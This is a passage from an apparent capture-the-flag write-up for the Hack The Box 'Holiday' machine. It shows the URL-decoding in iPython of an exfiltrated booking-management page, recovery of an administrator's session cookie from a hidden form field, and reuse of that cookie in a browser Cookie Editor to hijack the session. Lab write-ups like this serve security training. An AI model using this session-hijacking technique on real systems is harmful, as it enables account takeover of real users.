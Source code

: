 Now we need to decode the response so we can retrieve the cookie, back to iPython:

```text
root@kali:~/htb/holiday# ipython3
Python 3.7.7 (default, Apr  1 2020, 13:48:52)
Type 'copyright', 'credits' or 'license' for more information
IPython 7.14.0 -- An enhanced Interactive Python. Type '?' for help.

In [1]: import urllib
In [2]: urllib.parse.unquote("""cookie=%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%20%20%3Chead%3E%0A%20%20%20%20%20%20%3Cmeta%20charset%3D%22utf-8%22%3E%0A%20%20%20%20%20%20%3Cmeta%20http-equiv%3D%22X-UA-Compatible%22%20co
   ...: ntent%3D%22IE%3Dedge%22%3E%0A%20%20%20%20%20%20%3Ctitle%3EBooking%20Management%3C%2Ftitle%3E%0A%20%20%20%20%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20minimum-scale%3D1.0%2C%20maximum-scale%3D
   ...: 1.0%22%3E%0A%20%20%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20type%3D%22text%2Fcss%22%20href%3D%22%2Fcss%2Fbootstrap.min.css%22%20%2F%3E%0A%20%20%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20type%3D%22text%2Fcss%22%20href%3
   ...: D%22%2Fcss%2Fmain.min.css%22%20%2F%3E%0A%20%20%20%20%20%20%3Cscript%20src%3D%22%2Fjs%2Fjquery.min.js%22%3E%3C%2Fscript%3E%0A%20%20%20%20%20%20%3Cscript%20src%3D%22%2Fjs%2Fbootstrap.min.js%22%3E%3C%2Fscript%3E%0A%20%20%3C%2Fhead
   ...: %3E%0A%0A%20%20%3Cbody%3E%0A%20%20%20%20%20%20%3Cdiv%20id%3D%22st-container%22%20class%3D%22st-container%22%3E%0A%20%20%20%20%20%20%3Cdiv%20class%3D%22st-content%22%3E%0A%20%20%20%20%20%20%20%20%20%20%3Cp%3E%0A%20%20%20%20%20%2
   ...: 0%20%20%20%20%20%20%20%20%3Cnav%20class%3D%22navbar%20navbar-inverse%20navbar-static-top%20hidden-print%22%20role%3D%22navigation%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22container%22%3E
   ...: %0A%20%20%20%20%20%20%20%20%20%20
<SNIP>
```

Decodes to this:

```text
<SNIP>
<input type="hidden" name="cookie" value="connect.sid&#x3D;s%3A3aeeba40-b1a7-11ea-ad03-b74792d4303b.LnDoH7DEcRwKysftNhTHau7AtjawCJknIr1cMHOWCqY">\n                                      <input type="hidden" name="id" value="15">\n                                      <button class="button" type="submit">Approve</button>\n                                    </form>\n                            </div>\n                          </div>\n                        </div>\n                  </div>\n              </div>\n\n\n          </main>\n\n      </div>\n  </div>\n\n\n  </body>\n</html>\n'
```

Use the cookie in the response above in Cookie Editor:

![cookie_editor](/assets/images/2020-06-19-16-27-20.png)
